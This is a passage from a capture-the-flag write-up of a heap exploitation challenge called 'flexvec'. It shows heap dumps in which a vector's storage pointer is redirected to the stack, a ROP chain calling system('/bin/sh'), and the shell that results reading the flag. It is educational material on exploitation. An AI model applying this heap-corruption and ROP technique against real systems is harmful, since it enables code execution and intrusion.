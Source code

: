 ```bash
0x564173c8a2d0  0x0000564173cab000      0x0000000000000000      ...sAV..........
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```

We now got control of the heap again!

## Final exploit

Since we've prepared the appropriate size of 4, right now the pointer (0x564173c8a280)\[4] equals the storage pointer. So, we just need to push the appropriate stack pointer (RIP) and then clean the storage by popping and insert our ROP chain.

Pushing the appropriate stack pointer:

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q....... #--> Second Fake Chunk
0x564173c8a280  0x0000000000000000      0x0000000000000000      ................
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!....... #--> Vector Struct
0x564173c8a2a0  0x00007fff44b0d398      0x0000000000000004      ...D............ #--> Storage pointer pointing to stack
0x564173c8a2b0  0xffffffffffffffff      0x00007fff44b0d4c8      ...........D....
0x564173c8a2c0  0x0000000000000000      0x0000000000000000      ................         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000564173cab000      0x0000000000000000      ...sAV..........
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```

Write your ROP chain:

```glsl
pwndbg> tele $rbp
00:0000│ rbp 0x7fff44b0d390 —▸ 0x7fff44b0d430 —▸ 0x7fff44b0d490 ◂— 0x0
01:0008│+008 0x7fff44b0d398 —▸ 0x7f03e4a6782f (abort+15) ◂— ret
02:0010│+010 0x7fff44b0d3a0 —▸ 0x7f03e4b4e75b (__spawnix+875) ◂— pop rdi
03:0018│+018 0x7fff44b0d3a8 —▸ 0x7f03e4c0a42f ◂— 0x68732f6e69622f /* '/bin/sh' */
04:0020│+020 0x7fff44b0d3b0 —▸ 0x7f03e4a97740 (system) ◂— endbr64
05:0028│+028 0x7fff44b0d3b8 —▸ 0x56413cb9b45d (main) ◂— endbr64
06:0030│+030 0x7fff44b0d3c0 —▸ 0x7fff44b0d4b8 —▸ 0x7fff44b0e491 ◂— '/home/xovert/ctf/A-FinalBhMEA2024/day2/flexvec/flexvec_patched'
07:0038│+038 0x7fff44b0d3c8 ◂— 0x6e87e63862899553
```

```sh
[*] Switching to interactive mode
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat /flag*
FLAG{REDACTED}
```

Unfortunately, I did not solve this challenge during the event :cry:.
